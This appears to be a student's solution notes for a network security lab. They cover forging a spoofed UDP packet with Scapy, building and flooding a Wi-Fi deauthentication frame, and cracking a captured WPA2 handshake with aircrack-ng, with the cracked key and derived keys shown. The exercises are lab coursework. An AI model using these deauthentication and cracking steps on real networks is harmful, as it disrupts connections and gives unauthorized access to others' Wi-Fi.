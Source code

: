 TODO: rename to .txt

# Assignment 2
## task2-solution:
- Set up a UDP server using nc
	- find own ip address using `ifconfig`
	- `nc -ulp 53`

- Construct UDP datagram
	- `send(IP(src="192.168.0.1", dst="10.0.2.15") / UDP(sport=53,dport=53) / Raw(load="hello world!\n"), count=1)`
	- `IP()` sets router as source and localhost as destination
	- `UDP()` sets source and destination ports (chosen arbitrarily)
	- `Raw()` specifies payload
	- `count` specifies number of packages to send
	- `send()` sends the package.
	- one could also construct package declaring variables, i.e. `a=IP() / a.src="192.168.0.1" / b=UDP(...) / send(a/b/c)`


## task3-solution:
- deauthentication attack
	- find access point MAC address using `arp -a`	-> `ap = "..."`
	- find client MAC address via "about phone" in android settings -> `client = "..."`
	- `deauth_frame = Dot11(addr1=ap, addr2=client, addr3=ap) / Dot11Deauth()`
	- `send(deauth_frame, count=10000)` (or using for loop and `time.sleep(t_in_sec)`)

	- was not able to disconnect phone (maybe due to vm configuration?)
	- but `wireshark(deauth_frame)` classiefies packet correctly as "IEEE 802.11 Deauthentication" 
	

 ## task4-solution:
 -a 
 	- there is no handshake captured so we can't crack the pw.
	
 -b
 	-
	
 -c
 	-
	
	
 ## task5-solution:
 -a 
 	- having captured an handshake, ist possible to get the password by using a dictionary with the password in it.
	- found key: `Induction`
	
 -b
 	- command: `- aircrack-ng -w  wordlist.txt wpa2-handshake.pcap`
	-      `#  BSSID              ESSID                     Encryption

   		1  00:0C:41:82:B2:55  Coherer                   WPA (1 handshake, with PMKID)
   		2  65:78:F7:B7:30:84                            Unknown
   		3  65:78:F7:B7:60:A9                            Unknown
   		4  81:F8:47:33:56:BB                            Unknown
   		5  92:F3:65:74:D2:DB                            Unknown
   		6  98:D3:04:64:FA:55                            WPA (0 handshake)
   		7  F4:9F:8F:EA:7B:E6                            Unknown
   		8  FF:FF:FF:FF:FF:3F                            WEP (1 IVs)`

	- select target `#1` with captured handshake and run the attack:
	
	- output:      `[00:02:09] 3545201/3545298 keys tested (27800.50 k/s) 

      Time left: 0 seconds                                     100.00%

                           KEY FOUND! [ Induction ]


      Master Key     : 85 D8 68 B2 7A A9 42 93 07 EA B5 CA C0 55 B9 D8 
                       09 BE A6 0D E4 C7 0D 94 CD 2B D0 E2 46 87 3E 04 

      Transient Key  : 8F 7F 07 90 A1 8D 75 67 45 ED 23 13 C3 63 5C 4D 
                       80 36 6F 46 94 C1 21 87 C5 C9 6C D9 C1 7B F4 76 
                       2F 58 2D 32 41 47 70 4C 93 E6 3F AB D9 CC E2 A2 
                       A1 92 83 D1 07 88 62 44 82 5A D6 48 AD 24 FF B3 

      EAPOL HMAC     : 44 B9 F6 30 2A 9B AB 15 53 EB A7 E8 8D 5D 0C 1A `

	
 -c
 	- GTK: ee22041a83853263474c38811352282071c122359b7c35a7e7d034f3cd6ac565
	- KCK: b1cd792716762903f723424cd7d16511
	- KEK: 82a644133bfa4e0b75d96d2308358433
	- TK:  PTK is needed fpr calulating the TK!
	- PMK: A288FCF0CAAACDA9A9F58633FF35E8992A01D9C10BA5E02EFDF8CB5D730CE7BC
	
